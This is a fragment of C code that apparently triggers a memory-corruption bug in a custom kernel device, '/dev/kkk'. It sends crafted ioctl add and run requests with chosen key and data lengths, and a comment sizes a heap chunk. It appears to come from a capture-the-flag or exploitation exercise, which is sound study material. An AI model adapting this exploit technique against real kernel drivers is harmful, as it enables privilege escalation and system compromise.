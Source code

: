 ```c
    unsigned long long data_len;
    char * data;     
};

void Add(int fd, struct AddParam* p)
{
    printf("[+] Add return :%d\n", ioctl(fd, 0x6B64, p));
}

void Run(int fd, struct OtherParam* p)
{    
    printf("[+] Launch return :%d\n", ioctl(fd, 0x6B6B, p));
}

void Detach(int fd, struct OtherParam* p)
{
    ioctl(fd, 0x6B6D, p);
}

void main()
{
    char path[0x10] = "/dev/kkk";
    char buf[0x100];
    
    memset(buf, 0, 0x100);

    int fd = open(path, 0);
    if(fd == -1){
        puts("[!] open wrong, exit");
        exit(0);
    }

    struct AddParam a;
    struct OtherParam r;

    // malloc 192 - 48 = 144 = 0x90

    a.type = 3;
    a.key_len = 0x7F;
    a.key = buf;
    a.data_len = 0x11;
    a.data = buf + 0x80;
    memset(buf, 0x41, 8);

    Add(fd, &a);

    a.type = 3;
    a.key_len = 0x80;
    a.key = buf;
    a.data_len = 0x10;
    a.data = buf + 0x80;
    memset(buf, 0x42, 8);

    Add(fd, &a);

    // memset(buf, 0x43, 8);
    // Add(fd, &a);

    r.id = 0;
    Run(fd, &r);

    return;
}
```